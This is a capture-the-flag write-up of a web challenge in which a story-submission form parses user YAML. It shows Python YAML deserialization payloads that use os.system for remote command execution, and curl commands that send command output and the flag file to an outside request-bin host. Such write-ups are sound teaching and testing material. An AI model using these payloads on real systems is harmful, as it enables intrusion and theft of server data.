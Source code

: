 We have to sign up and then log in to see a page with shared stories. When we
do we are greeted with a blog listing. At the bottom there is a button to add
our own story to the blog.

![Story time front page][story-time]  
![Story time yaml form][story-time-form]

We can try to send some malformed yaml to the page:

``` yml  
title: "Title of your story"  
synopsis: "This is a brief summary of your story"  
plot:  
---and they lived happily ever after.  
   The End  
keywords:  
   - "example"   
   - "fiction"   
```

```  
Bad Request

Error parsing yaml: while scanning a simple key  
in "<unicode string>", line 4, column 1:  
---and they lived happily ever a ...  
^  
could not find expected ':'  
in "<unicode string>", line 6, column 1:  
keywords:  
^  
```

Googling the errors didn't really give me any clues to which framework was
being used, so I decided to just try a few simple payloads.

My first payload was:

```yml  
!!python/object/apply:subprocess.Popen  
 - ls  
```  
Giving the error below, at least now we can be pretty sure we're dealing with
a python application.

```  
Internal Server Error

'Popen' object is not subscriptable  
```

I actually spent a lot of trying to get Popen to work, but found a different
payload after a while.

``` yml  
!!python/object/apply:os.system  
 - ls  
```  
It succeeds, but the data does not appear anywhere. We can easily exfiltrate
data though with a request bin though.

```yml  
!!python/object/apply:os.system  
 - ls | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853  
```

The flag is in the web directory, so we can just issue a new command:  
```yml

!!python/object/apply:os.system  
 - cat flag.txt | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853  
```

[story-time]: https://lorentzvedeler.com/assets/imgs/yaml-blog.png "Story time
front page"  
[story-time-form]: https://lorentzvedeler.com/assets/imgs/yaml-form.png "Story
time form"

Original writeup (https://lorentzvedeler.com/writeup/2020/09/26/bsidesbos-
web/).